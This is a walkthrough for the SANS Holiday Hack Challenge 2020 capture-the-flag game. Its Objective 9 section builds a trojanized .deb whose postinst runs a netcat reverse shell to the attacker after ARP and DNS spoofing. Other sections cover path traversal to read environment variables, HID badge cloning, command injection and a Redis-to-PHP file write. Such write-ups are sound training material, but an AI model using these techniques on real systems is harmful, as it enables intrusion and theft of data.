

# Holiday Hack Challenge 2020
KringleCon 3 &ndash; French Hens: [Info](https://holidayhackchallenge.com/2020/) | [Game](https://2020.kringlecon.com/) | [Status](https://status2020.kringlecon.com/) | [Talks](https://download.holidayhackchallenge.com/2020/KringleCon3_SpeakerAgenda.pdf) | [Music](https://holidayhackchallenge.com/2020/music.html) | [Discord](https://discord.com/channels/783055461620514818/784111781739757618)

## Objective 1: Uncover Santa's Gift List
Difficulty: 1/5

There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.

### Solution
Use a photo-editing website like photopea, to untwirl the list on Santa's desk in the billboard at the Turnpike.

## Objective 2: Investigate S3 Bucket
Difficulty: 1/5

When you unwrap the over-wrapped file, what text string is inside the package? Talk to Shinny Upatree in front of the castle for hints on this challenge.

### Solution
1. Add "Wrapper3000" to the wordlist and then use the script provided.
2. This is an exercise in unzipping, untarring, etc. each file type as they come until you get to the textfile.

## Objective 3: Point-of-Sale Password Recovery
Difficulty: 1/5

Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal. What's the password?

### Solution
This is an electron app, so we download it, unzip, and then pass it through `asar`. This shows us the password in plain text in the `app.js` file.

## Objective 4: Operate the Santavator
Difficulty: 2/5

Talk to Pepper Minstix in the entryway to get some hints about the Santavator.

### Solution
Explore the castle and pick up items along the way. Keep investigating the control panel and access new areas as you can. Eventually, you will be able to light up everything at once.

## Objective 5: Open HID Lock
Difficulty: 2/5

Open the HID lock in the Workshop. Talk to Bushy Evergreen near the talk tracks for hints on this challenge. You may also visit Fitzy Shortstack in the kitchen for tips. (The [KringleCon talk](https://www.youtube.com/watch?v=647U85Phxgo) is also a great intro.)

### Solution
1. Pick up the HID reader in the back of the wrapping room.
2. Shiny upatree is Santa's most trusted elf, so go to the entrance and read his badge: 
    ```shell
    $ lf hid read
    #db# TAG ID: 2006e22f13 (6025) - Format Len: 26 bit - FC: 113 - Card: 6025
    ```
3. Return to the wrapping room and use his badge on the door:
    ```shell
    $ lf hid sim -w H10301 --fc 113 --cn 6025
    ```
4. Be sure to navigate through the invisible maze in the dark room behind the door.
5. Become Santa and feel free to check out his office using the Santavator (and also teleport).


## Objective 6: Splunk Challenge
Difficulty: 3/5

Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?

### Solution
Use the chat with the elves for hints. The [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) repo is very helpful. Note that the final question doesn't involve Splunk, but you need the key "Stay Frosty" to undo the RC4 encoding of the solution (first `base64 -d` it and then make it all hex with `xxd`).

```
Q1: 13
Q2: t1059.003-main t1059.003-win
Q3: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography
Q4: 2020-11-30T17:44:15Z
Q5: 3648
Q6: quser
Q7: 55FCEEBB21270D9249E86F4B9DC7AA60
FINAL: The Lollipop Guild
```

## Objective 7: Solve the Sleigh's CAN-D-BUS Problem
Difficulty: 3/5

Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh. Visit the NetWars room on the roof and talk to Wunorse Openslae for hints. (The [KringleCon talk](https://www.youtube.com/watch?v=96u-uHRBI0I) gives a good primer on the technology.)

### Solution
Talk to the Wunorse Openslae as your avatar (not Santa) and he tells you about the issues with the brakes, doors acting naughty, and possible invalid bytes. The sleigh has codes for accelerate, brake, steer, start, stop, and lock/unlock, which we have to figure out. Using the filtering, remove all the ones that are all zeros for investigation. 

| ID | Action |
| --- | --- |
| `188` | Acceleration |
| `080` | Brake |
| `244` | Start/Stop |
| `019` | Steering |
| `19B` | Lock/Unlock |

If you work with lock/unlock, you will see another random code come in&mdash;this is one of the rules. In addition, if you work on the associated cranberry pi terminal, you will work with these codes to identify a lock and unlock code. The other is to look at the brakes; the slider only allows positive numbers but the some of the hex values are negative (start with F), so block those.

These are the exlusion rules necessary to fix the issues with the sleigh:

| ID | Criteria | Value | Rationale |
| --- | --- | --- | --- |
| `19B` | Equals | `00 00 00 0F 20 57` | Lock is `00 00 00 00 00 00` and unlock is `00 00 0F 00 00 00`; this is unknown. |
| `080` | Less | `00 00 00 00 00 00` | Brake is in `[0, 100]` so negative values (like those beginning with `F`) are not allowed. |


## Objective 8: Broken Tag Generator
Difficulty: 4/5

Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable `GREETZ`? Talk to Holly Evergreen in the kitchen for help with this.

### Solution
The tag generator is at https://tag-generator.kringlecastle.com. If you upload a non-image, you get the following error indicating where the script is running:
```
Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201217-1-z3zijo.txt
```

If you upload an image and look at the request that gets made, it is placed in `/image?id=<uuid>.png`, which you can replace with a bunch of `../` to retrieve files from the system. Running a simple curl command to get `../../../proc/1/environ` gets the environment variables including `GREETZ`.

**NOTE**: there is also a remote code execution (RCE) method, but I didn't go that route.

## Objective 9: ARP Shenanigans
Difficulty: 4/5

Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Who recused herself from the vote described on the document?

### Description
Jack Frost has hijacked the host at 10.6.6.35 with some custom malware. Help the North Pole by getting command line access back to this host.

Hint from elf: use `tcpdump` to sniff packets and then spoof DNS response to point a terminal to my host then respond to the terminal's HTTPS request&mdash;MITM.

### Tips
#### `tmux`

Here are some tips, but see tmuxcheatsheet.com for more details:
- Resize terminals: `Ctrl+B ↑ or ↓`.
- Switch terminal panes: `Ctrl+B o`.
- Add additional terminal pane: `/usr/bin/tmux split-window -hb`
- Exit a terminal pane: `exit`

#### To Launch a webserver to serve-up files/folder in a local directory:
```shell
cd /my/directory/with/files
python3 -m http.server 80
```

#### Packets
- A sample ARP pcap can be viewed at: https://www.cloudshark.org/captures/d97c5b81b057
- A sample DNS pcap can be viewed at: https://www.cloudshark.org/captures/0320b9b57d35
- If reading the sample `arp.pcap` with `tcpdump` or `tshark` be sure to disable name resolution or it will stall when reading:
```shell
tshark -nnr arp.pcap
tcpdump -nnr arp.pcap
```

### Hints

1. The host is performing an ARP request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in /home/guest/scripts.
2. The malware on the host does an HTTP request for a .deb package. Maybe we can get command line access by sending it a command in a customized .deb file (http://www.wannescolman.be/?p=98)
3. Jack Frost must have gotten malware on our host at 10.6.6.35 because we can no longer access it. Try sniffing the eth0 interface using tcpdump -nni eth0 to see if you can view any traffic from that host.
4. Hmmm, looks like the host does a DNS request after you successfully do an ARP spoof. Let's return a DNS response resolving the request to our IP.

### Solution

#### Packet Spoofing
First, we need to figure out which host the infected one (10.6.6.35) is talking to, so we sniff:
```shell
guest@3906271f242a:~$ tcpdump -nni eth0
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
22:58:31.882438 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
22:58:32.914434 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```

Now we know that we need to spoof the ARP request to 10.6.6.35 pretending that we are 10.6.6.53, so we need to get the infected machine's MAC address:
```shell
guest@3906271f242a:~$ arp -a
arp_requester.guestnet0.kringlecastle.com (10.6.6.35) at 4c:24:57:ab:ed:84 [ether] on eth0
```

Then, we use the provided skeleton script for the `scapy` packet and fill it in. (See `arp_shenanigans/arp_resp.py`.) Running the script, sends out the reply to 10.6.6.35 who then makes a DNS query to our machine:
```shell
00:15:32.794499 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28   
00:15:32.818593 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28    
00:15:32.842914 IP 10.6.6.35.48825 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
```

Next, we fill in the skeleton script for a spoofed DNS `scapy` packet. (See `arp_shenanigans/dns_resp.py`.) We first start up a web server, and then run this script, which will wait until we run `arp_resp.py`. When the DNS reply is sent to 10.6.6.35, it sends an HTTP request our way:
```shell
guest@3906271f242a:~$ python3 -m http.server 80
10.6.6.35 - - [18/Dec/2020 00:38:55] code 404, message File not found 
10.6.6.35 - - [18/Dec/2020 00:38:55] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```

Therefore, we need to put a trojan in this location on the local machine. 

#### Building a Trojan
For the exploit, we have to modify the `postinst` file in the dpkg that will be run after it is installed. Pick the `.deb` file in `~/debs/` that has the traditional version of `netcat` installed. Move this file to the appropriate location:

1. Create a location to work in:
    ```shell
    guest@24fc902b00b2:~$ mkdir /tmp/packing
    guest@24fc902b00b2:~$ cd /tmp/packing
    ```
2. Copy over the `.deb` files:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ cp ~/debs/netcat-traditional_1.10-41.1ubuntu1_amd64.deb /tmp/packing/
    ```
3. Extract it:
    ```shell 
    guest@24fc902b00b2:/tmp/packing$ dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
    guest@24fc902b00b2:/tmp/packing$ ls
    netcat-traditional_1.10-41.1ubuntu1_amd64.deb  work
    ```
4. Create a `DEBIAN` directory for the payload:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ mkdir work/DEBIAN
    ```
5. Create the `control` and `postinst` files:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb 
    guest@24fc902b00b2:/tmp/packing$ ls
    control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  work

    guest@24fc902b00b2:/tmp/packing$ tar -xf control.tar.xz ./control
    guest@24fc902b00b2:/tmp/packing$ tar -xf control.tar.xz ./postinst
    guest@24fc902b00b2:/tmp/packing$ ls
    control  control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  postinst  work

    guest@24fc902b00b2:/tmp/packing$ mv control work/DEBIAN/
    guest@24fc902b00b2:/tmp/packing$ mv postinst work/DEBIAN/
    guest@24fc902b00b2:/tmp/packing$ ls
    control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  work
    guest@24fc902b00b2:/tmp/packing$ ls work/DEBIAN/
    control  postinst
    ```
6. Create a `music` directory to hide the netcat trojan, called `jinglebells` to be festive:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ mkdir work/usr/music
    guest@24fc902b00b2:/tmp/packing$ nano work/usr/music/jinglebells
    ```
7. Place this code into the `jinglebells` file:
    ```shell
    #!/bin/bash
    nc <my_ip> 4444 -e /bin/bash
    ```
8. Make this executable:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ chmod 2755 work/usr/music/jinglebells
    ```
9. Include the exploit in the `postinst` file, which runs after the dpkg is installed:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ echo "sudo chmod 2755 /usr/music/jinglebells && /usr/music/jinglebells &" >> work/DEBIAN/postinst
    ```
10. Package it up and name it what the requester expects it to be:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ dpkg-deb --build /tmp/packing/work/
    dpkg-deb: building package 'netcat-traditional' in '/tmp/packing/work.deb'.
    guest@24fc902b00b2:/tmp/packing$ mv work.deb suriv_amd64.deb
    guest@24fc902b00b2:/tmp/packing$ ls
    control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  suriv_amd64.deb  work
    ```
11. Move it to the full path that will be requested in the HTTP GET request:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ mkdir -p ~/pub/jfrost/backdoor
    guest@24fc902b00b2:/tmp/packing$ mv suriv_amd64.deb ~/pub/jfrost/backdoor/
    ```

### The full attack

1. Setup a `netcat` listener locally for a reverse shell (the victim will connect to us):
    ```shell
    nc -lvp 4444
    ```
2. Run the DNS and ARP-spoofing along with the webserver. The HTTP request is now a successful request serving up the exploit:
    ```shell
    10.6.6.35 - - [18/Dec/2020 02:38:55] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 200 -
    ```
3. The victim sends a shell back to us and we can get the information we are after:
    ```
    guest@24fc902b00b2:~$ nc -lvvp 4444
    listening on [any] 4444 ...
    connect to [10.6.0.26] from arp_requester.guestnet0.kringlecastle.com [10.6.6.35] 44784

    cat NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
    MEETING MINUTES

    January 20, 2020

    Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole

    Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.

    Roll call of Board members please:
    Chairman Jack Frost - Present
    Vice Chairman Mother Nature - Present

    Superman - Present
    Clarice - Present
    Yukon Cornelius - HERE!
    Ginger Breaddie - Present
    King Moonracer - Present
    Mrs. Donner - Present
    Tanta Kringle - Present
    Charlie In-the-Box - Here
    Krampus - Growl
    Dolly - Present
    Snow Miser - Heya!
    Alabaster Snowball - Hello
    Queen of the Winter Spirits - Present

    ALSO PRESENT:
                    Kris Kringle
                    Pepper Minstix
                    Heat Miser
                    Father Time

    Chairman Frost made the required announcement concerning the Open Public Meetings Act: Adequate notice of this 
    meeting has been made -- displayed on the bulletin board next to the Pole, listed on the North Pole community 
    website, and published in the North Pole Times newspaper -- for people who are interested in this meeting.

    Review minutes for December 2020 meeting. Motion to accept – Mrs. Donner. Second – Superman.  Minutes approved.

    OLD BUSINESS: No Old Business.

    RESOLUTIONS:
    The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to 
    include new courtyard, additional floors, elevator, roughly tripling the size of the current castle.  Architect 
    Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put 
    a heavy toll on the infrastructure of the North Pole.”  Mr. Krampus replied, “The infrastructure has already 
    been expanded to handle it quite easily.”  Chairman Frost then noted, “But the additional traffic will be a burden 
    on local residents.”  Dolly explained traffic projections were all in alignment with existing roadways.  Chairman 
    Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to 
    refer to the North Pole as ‘The Frostiest Place on Earth?’”  Mr. In-the-Box pointed out that new tourist-friendly 
    taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board.  
    Mrs. Nature made a motion to approve.  Seconded by Mr. Cornelius.  Tanta Kringle recused herself from the vote given 
    her adoption of Kris Kringle as a son early in his life.  

    Approved:
    Mother Nature
    Superman
    Clarice
    Yukon Cornelius
    Ginger Breaddie
    King Moonracer
    Mrs. Donner
    Charlie In the Box
    Krampus
    Dolly
    Snow Miser
    Alabaster Snowball
    Queen of the Winter Spirits

    Opposed: 
                    Jack Frost

    Resolution carries.  Construction approved.

    NEW BUSINESS:

    Father Time Castle, new oversized furnace to be installed by Heat Miser Furnace, Inc.  Mr. H. Miser described the plan 
    for installing new furnace to replace the faltering one in Mr. Time’s 20,000 sq ft castle. Ms. G. Breaddie pointed out 
    that the proposed new furnace is 900,000,000 BTUs, a figure she considers “incredibly high for a building that size, 
    likely two orders of magnitude too high.  Why, it might burn the whole North Pole down!”  Mr. H. Miser replied with a 
    laugh, “That’s the whole point!”  The board voted unanimously to reject the initial proposal, recommending that Mr. Miser 
    devise a more realistic and safe plan for Mr. Time’s castle heating system.


    Motion to adjourn – So moved, Krampus.  Second – Clarice. All in favor – aye. None opposed, although Chairman Frost made 
    another note of his strong disagreement with the approval of the Kringle Castle expansion plan.  Meeting adjourned.
    ```

Now we have our answer.

## Objective 10: Defeat Fingerprint Sensor
Difficulty: 3/5

Bypass the Santavator fingerprint sensor. Enter Santa's office without Santa's fingerprint.

### Solution
Go into the elevator as Santa and inspect element to poke around the code. You will notice that the check on the fingerprint is done via an event in an iframe, so grab the iframe and take a look at the `src`:

```html
<iframe title="challenge" src="https://elevator.kringlecastle.com?challenge=santamode-elevator4&amp;id=3215dcbd-953a-4600-a655-201c328ddaf8&amp;username=ovejita&amp;area=santamode-santavator4&amp;location=1,2&amp;tokens=marble,portals,nut2,marble2,nut,candycane,ball,yellowlight,elevator-key,greenlight,redlight,workshop-button,besanta"></iframe>
```

Note the `besanta` token. This is also referenced in the React code. Perhaps this can be manipulated?

Go back to your avatar and enter the elevator. Then add the `besanta` token to the `iframe.src` field:
```javascript
let x = document.getElementsByTagName('iframe')[0]
x.src = x.src + ',besanta';
```

Now trying the fingerprint sensor gives access to Santa's office.

## Objective 11a: Naughty/Nice List with Blockchain Investigation Part 1
Difficulty: 5/5

Even though the chunk of the blockchain that you have ends with block `129996`, can you predict the nonce for block `130000`? Talk to Tangle Coalbox in the Speaker UNpreparedness Room for tips on prediction and Tinsel Upatree for more tips and tools. (Enter just the 16-character hex hash)

### Hint
If you have control over the bytes in a file, it's easy to create MD5 hash collisions. Problem is: there's that nonce that you would have to know ahead of time.

### Solution
Using what we learned about predicting random numbers generated by PRNG (pseudo-random number generators) in the Snowball Game, we can isolate the nonces of each block of the Naughty/Nice Blockchain and use that to predict the nonce for the block in question.

In `OfficalNaughtyNiceBlockchainEducationPack/utils.py`:

```python
import random
from mt19937predictor import MT19937Predictor


def nonce_predictor(nonces, blockchain, target_block):
    """Predict the nonce for the target block."""

    # set up the predictor with the nonces as 64-bit integers
    predictor = MT19937Predictor()
    for nonce in nonces[-624:]:
        predictor.setrandbits(nonce, 64)

    # predict blocks until we reach the target block
    block_index = blockchain.index + 1
    for i in range(block_index, target_block):
        print(f'Predicting nonce for block {i}...')
        next_nonce = predictor.getrandbits(64)
    print('The target block will have the nonce:', hex(next_nonce))
```

Then, we add this to the `OfficalNaughtyNiceBlockchainEducationPack/naughty_nice.py` script and run it for the answer:

```python
from utils import nonce_predictor

with open('official_public.pem', 'rb') as fh:
        official_public_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')

nonces = [block.nonce for block in c2.blocks]
nonce_predictor(nonces, c2, target_block=130001)
```

## Objective 11b: Naughty/Nice List with Blockchain Investigation Part 2
Difficulty: 5/5

The SHA256 of Jack's altered block is: `58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f`. If you're clever, you can recreate the original version of that block by changing the values of only 4 bytes. Once you've recreated the original block, what is the SHA256 of that block?

### Hints
1. A blockchain works by "chaining" blocks together - each new block includes a hash of the previous block. That previous hash value is included in the data that is hashed - and that hash value will be in the next block. So there's no way that Jack could change an existing block without it messing up the chain...
2. The idea that Jack could somehow change the data in a block without invalidating the whole chain just collides with the concept of hashes and blockchains. While there's no way it could happen, maybe if you look at the block that seems like it got changed, it might help.
3. Shinny Upatree swears that he doesn't remember writing the contents of the document found in that block. Maybe looking closely at the documents, you might find something interesting.
4. If Jack was somehow able to change the contents of the block AND the document without changing the hash... that would require a very [UNIque hash COLLision](https://github.com/cr-marcstevens/hashclash).
5. Apparently Jack was able to change just 4 bytes in the block to completely change everything about it. It's like some sort of [evil game](https://speakerdeck.com/ange/colltris) to him.
6. Qwerty Petabyte is giving [a talk](https://www.youtube.com/watch?v=7rLMl88p-ec) about blockchain tomfoolery!

### Solution
First, we have to figure out which block is the once Jack altered. Adding this to the `OfficalNaughtyNiceBlockchainEducationPack/naughty_nice.py` script and running it finds the block in question and downloads the files it contained:

```python
target = '58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f'
for i, block in enumerate(c2.blocks):
    hash_obj = SHA256.new()
    hash_obj.update(block.block_data_signed())

    if hash_obj.hexdigest() == target:
        print('Jack\'s altered block found: ')
        print(c2.blocks[i])

        c2.blocks[i].dump_doc(1)
        c2.blocks[i].dump_doc(2)
        break
```

Block 129459 is the bad one and it contains a .bin file and a .pdf file. In the PDF, Shinny Upatree is supposededly writing up a glowing report on the niceness of Jack Frost featuring quotes from Mother Nature, The Tooth Fairy, Rudolph of the Red Nose, and the Abominable Snowman. The comments are almost identical:

```
“Jack Frost is the kindest, bravest, warmest, most wonderful being I’ve ever known in my life.”
                                                                        – Mother Nature
“Jack Frost is the bravest, kindest, most wonderful, warmest being I’ve ever known in my life.”
                                                                        – The Tooth Fairy
“Jack Frost is the warmest, most wonderful, bravest, kindest being I’ve ever known in my life.”
                                                                        – Rudolph of the Red Nose
“Jack Frost is the most wonderful, warmest, kindest, bravest being I’ve ever known in my life.”
                                                                        – The Abominable Snowman

With acclaim like this, coming from folks who really know goodness when they see it, Jack Frost 
should undoubtedly be awarded a huge number of Naughty/Nice points.

Shinny Upatree
3/24/2020
```

Examining the PDF file in a hex editor like hexed.it and using hints 2, 3, and 4, we can change 2 bytes in this file to get back the original document. Taking a look at the [resource on PDF collisions](https://github.com/corkami/collisions#pdf), we can see that one way is through the comments. In beginning of the file in question, we have some comments:

```
<</Type/Catalog/_Go_Away/Santa/Pages 2
```

We can either add or subtract 1 from the 2 bytes in question, so first we look for one that will change the document. This happens to be the 2 above. If we change the 64th byte from 0x32 to 0x31, the page in the PDF will be blank; however, if we change it from 0x32 to 0x33, then we get back the "naughty" write-up on Jack Frost:

```
“Earlier today, I saw this bloke Jack Frost climb into one of our cages and repeatedly kick a wombat. I
don’t know what’s with him… it’s like he’s a few stubbies short of a six-pack or somethin’. I don’t think
the wombat was actually hurt… but I tell ya, it was more ‘n a bit shook up. Then the bloke climbs outta
the cage all laughin’ and cacklin’ like it was some kind of bonza joke. Never in my life have I seen
someone who was that bloody evil...”
                                                        Quote from a Sidney (Australia) Zookeeper

I have reviewed a surveillance video tape showing the incident and found that it does, indeed, show
that Jack Frost deliberately traveled to Australia just to attack this cute, helpless animal. It was
appalling.

I tracked Frost down and found him in Nepal. I confronted him with the evidence and, surprisingly, he
seems to actually be incredibly contrite. He even says that he’ll give me access to a digital photo that
shows his “utterly regrettable” actions. Even more remarkably, he’s allowing me to use his laptop to
generate this report – because for some reason, my laptop won’t connect to the WiFi here.

He says that he’s sorry and needs to be “held accountable for his actions.” He’s even said that I should
give him the biggest Naughty/Nice penalty possible. I suppose he believes that by cooperating with me,
that I’ll somehow feel obliged to go easier on him. That’s not going to happen… I’m WAAAAY
smarter than old Jack.

Oh man… while I was writing this up, I received a call from my wife telling me that one of the pipes in
our house back in the North Pole has frozen and water is leaking everywhere. How could that have
happened?

Jack is telling me that I should hurry back home. He says I should save this document and then he’ll go
ahead and submit the full report for me. I’m not completely sure I trust him, but I’ll make myself a
note and go in and check to make absolutely sure he submits this properly.


Shinny Upatree
3/24/2020
```

In order to make sure that we cause the collision, we must also modify the 64th byte after this one, which goes from 0x1c to 0x1b since we have to subtraction because the other edit was addition. Now, we can save the modified bytes to a Python file (see `OfficalNaughtyNiceBlockchainEducationPack/fixed_pdf.py`) and replace Jack Frost's version of the PDF with this one by adding to the `OfficalNaughtyNiceBlockchainEducationPack/naughty_nice.py` file:

```python
from fixed_pdf import fixed_pdf

# the PDF is the second document
c2.blocks[i].data[1]['data'] = fixed_pdf
```

We know that one of the other bytes we need to change is to flip nice to naughty meaning we need to find something else to change, so dump the contents of a nice and naughty version of the block with the new PDF:

```python
with open('block_dump_nice.txt', 'wb') as file:
    file.write(c2.blocks[i].block_data())
with open('block_dump_naughty.txt', 'wb') as file:
    c2.blocks[i].sign -= 1
    file.write(c2.blocks[i].block_data())
```

These can be inspected with a hex editor to find where the nice/naughty byte is. Since this is a subtraction (nice=1, naughty=0), the other change must be an addition:



By looking at how the block data is formed, we can see that the other piece we need to modify is in the data of the .bin file. So we add the modified bytes for this file to `OfficalNaughtyNiceBlockchainEducationPack/fixed_pdf.py` and then replace the .bin file in the documents for the block:

```python
from fixed_pdf import fixed_bin, fixed_pdf

c2.blocks[i].sign = Naughty
c2.blocks[i].data[0]['data'] = fixed_bin
c2.blocks[i].data[1]['data'] = fixed_pdf
```

The last step is to calculate the SHA256 of the fixed block:

```python
hash_obj = SHA256.new()
hash_obj.update(c2.blocks[i].block_data_signed())
print(hash_obj.hexdigest())
```


## Roll the Credits

To complete the game, you must re-enter Santa's office as your own avatar exploiting the solution for objective 10 again. Now you can access the roof for the first time, and the game ends:


*You can also buy [winners' only swag](https://teespring.com/hhc2020-winner?pid=1027&cid=104073&sid=front).*

## Mini-games

### Kringle Kiosk
Has code injection vulnerability. If you select the badge generation option, but use `;` you can hack it.

### Escape Tmux
Self-explanatory.

### Linux primer
Series of tasks solved by linux commands.

### Elf + Lollipops
Uses JavaScript methods on an elf object to code up logic for various scenarios.

### 33.6 Kbps
Dial 756-8347 and recreate the dial-up noises using the post-it: baa, aah, wew, bepurr, schh...

### Redis-cli
The cranberry pi terminal also has a local redis client running and you need to get the code on `index.php`, but the only page you can access is `maintenance.php`. You can curl `maintenance.php` and send redis commands in the `cmd` query parameter. With `cmd=config,get,*`, we get the password `R3disp@ss`.

From there, we can run the redis-cli and the `auth` command to log in. Then we `set` the `dbfilename` to a file we can access and `set` a new key to some PHP that prints the file contents of `index.php`. Now curling, gives the page in question.

### Speaker UNPreparedness Room
There are 3 challenges here:

1. Unlock the door: poke around the system to find the password.
2. Turn on the lights: using the test environment, flip the key names for username/password in the config file and then run the test version of the script. It decrypts the password for you. Use this when you run the actual script.
3. Turn on the vending machines: take a look at the test version of the config at the password length. Then, delete the test version of the config and run the test version. It has you make a new config, so try all `A` or all `B`, etc. (using the appropriate number of characters). Compare the result in the new config to the original. This cipher uses position in the string as well. Eventually, you find the password is `CandyCane1`.

### Present sorting (in the wrapping room)
Exercise in JavaScript regular expressions.

### Scapy practice
```
╔════════════════════════════════════════════════════════════════╗
║  ___ ___ ___ ___ ___ _  _ _____   ___  _   ___ _  _____ _____  ║
║ | _ \ _ \ __/ __| __| \| |_   _| | _ \/_\ / __| |/ / __|_   _| ║
║ |  _/   / _|\__ \ _|| .` | | |   |  _/ _ \ (__| ' <| _|  | |   ║
║ |_| |_|_\___|___/___|_|\_| |_|   |_|/_/ \_\___|_|\_\___| |_|   ║
║                ___                                             ║
║               | _ \_ _ ___ _ __ _ __  ___ _ _                  ║
║               |  _/ '_/ -_) '_ \ '_ \/ -_) '_|                 ║
║               |_| |_| \___| .__/ .__/\___|_|                   ║
║                           |_|  |_|                             ║
║                (Packets prepared with scapy)                   ║
╚════════════════════════════════════════════════════════════════╝
Type "yes" to begin. yes
╔════════════════════════════════════════════════════════════════╗
║ HELP MENU:                                                     ║
╠════════════════════════════════════════════════════════════════╣
║ 'help()' prints the present packet scapy help.                 ║
║ 'help_menu()' prints the present packet scapy help.            ║
║ 'task.get()' prints the current task to be solved.             ║
║ 'task.task()' prints the current task to be solved.            ║
║ 'task.help()' prints help on how to complete your task         ║
║ 'task.submit(answer)' submit an answer to the current task     ║
║ 'task.answered()' print through all successfully answered.     ║
╚════════════════════════════════════════════════════════════════╝
>>> task.get()
Welcome to the "Present Packet Prepper" interface! The North Pole could use your help preparing present packets for shipment.
Start by running the task.submit() function passing in a string argument of 'start'.
Type task.help() for help on this question.
>>> task.submit('start')
Correct! adding a () to a function or class will execute it. Ex - FunctionExecuted()

Submit the class object of the scapy module that sends packets at layer 3 of the OSI model.

>>> task.submit(send)
Correct! The "send" scapy class will send a crafted scapy packet out of a network interface.

Submit the class object of the scapy module that sniffs network packets and returns those packets in a list.

>>> task.submit(sniff)
Correct! the "sniff" scapy class will sniff network traffic and return these packets in a list.

Submit the NUMBER only from the choices below that would successfully send a TCP packet and then return the first sniffed response packet to be stored in a variable named "pkt":
1. pkt = sr1(IP(dst="127.0.0.1")/TCP(dport=20))
2. pkt = sniff(IP(dst="127.0.0.1")/TCP(dport=20))
3. pkt = sendp(IP(dst="127.0.0.1")/TCP(dport=20))
>>> task.submit(1)
Correct! sr1 will send a packet, then immediately sniff for a response packet.
Submit the class object of the scapy module that can read pcap or pcapng files and return a list o
f packets.

>>> task.submit(scapy.utils.rdpcap)
Correct! the "rdpcap" scapy class can read pcap files.
The variable UDP_PACKETS contains a list of UDP packets. Submit the NUMBER only from the choices b
elow that correctly prints a summary of UDP_PACKETS:
1. UDP_PACKETS.print()
2. UDP_PACKETS.show()
3. UDP_PACKETS.list()
>>> task.submit(2)
Correct! .show() can be used on lists of packets AND on an individual packet.
Submit only the first packet found in UDP_PACKETS.

>>> task.submit(UDP_PACKETS[0])
Correct! Scapy packet lists work just like regular python lists so packets can be accessed by thei
r position in the list starting at offset 0.
Submit only the entire TCP layer of the second packet in TCP_PACKETS.


>>> task.submit(TCP_PACKETS[1][TCP])
Correct! Most of the major fields like Ether, IP, TCP, UDP, ICMP, DNS, DNSQR, DNSRR, Raw, etc... can be accessed this way. Ex - pkt[IP][TCP]

Change the source IP address of the first packet found in UDP_PACKETS to 127.0.0.1 and then submit this modified packet

>>> x = UDP_PACKETS[1]

>>> x
<Ether  dst=00:e0:18:b1:0c:ad src=00:c0:9f:32:41:8c type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=76 id=53241 flags= frag=0 ttl=128 proto=udp chksum=0x9539 src=192.168.170.20 dst=192.168.170.8 |<UDP  sport=domain dport=32795 len=56 chksum=0xa317 |<DNS  id=30144 qr=1 opcode=QUERY aa=0 tc=0 rd=1 ra=1 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=1 nscount=0 arcount=0 qd=<DNSQR  qname='www.elves.rule.' qtype=A qclass=IN |> an=<DNSRR  rrname='www.elves.rule.' type=A rclass=IN ttl=82159 rdlen=None rdata=10.21.23.12 |> ns=None ar=None |>>>>

>>> x[IP]
